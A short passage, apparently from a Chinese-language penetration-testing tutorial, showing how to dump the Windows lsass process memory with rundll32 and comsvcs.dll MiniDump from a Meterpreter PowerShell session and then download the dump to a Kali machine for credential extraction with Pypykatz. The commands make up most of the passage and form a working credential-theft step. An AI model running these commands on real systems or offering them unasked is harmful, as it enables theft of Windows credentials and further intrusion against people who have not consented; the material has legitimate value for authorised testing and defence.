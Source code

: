 之后使用同样的方法进行暴力破解即可。

### Pypykatz

首先我们将`lsass`进程内存 dump 下来

```plain
load powershell
powershell_shell
Get-Process Lsass
cd C:\Windows\System32
.\rundll32.exe comsvcs.dll, MiniDump 576 C:\lsass.DMP full
```

[![](assets/1708919803-89994a488dfe5d28b7ab4d056e3aecac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142302-2b689164-ce26-1.png)

将 dmp 文件下载到 kali 本机`download c:/lsass.dmp /home/kali/Desktop`
